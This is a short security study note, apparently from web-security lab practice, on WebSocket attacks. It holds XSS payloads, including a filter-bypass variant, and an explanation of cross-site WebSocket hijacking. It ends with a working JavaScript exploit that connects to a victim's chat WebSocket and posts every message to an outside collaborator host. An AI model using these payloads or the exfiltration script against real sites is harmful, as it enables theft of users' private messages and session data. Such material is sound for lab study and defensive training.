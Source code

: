 ### Manipulating WebSocket messages
    For XSS: <img src=1 onerror='alert(1)'>
    To bypass XSS filter: <img src=1 oNeRrOr=alert`1`>
### Cross-site WebSocket hijacking
Cross-site WebSocket hijacking (also known as cross-origin WebSocket hijacking) involves a cross-site request forgery (CSRF) vulnerability on a WebSocket handshake. It arises when the WebSocket handshake request relies solely on HTTP cookies for session handling and does not contain any CSRF tokens or other unpredictable values. 
####  Exploit
```js
<script>
    var ws = new WebSocket('wss://0a820003036953d283898de6004b0013.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://agus9fqks1acunox6p9wrogmndt4hv5k.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

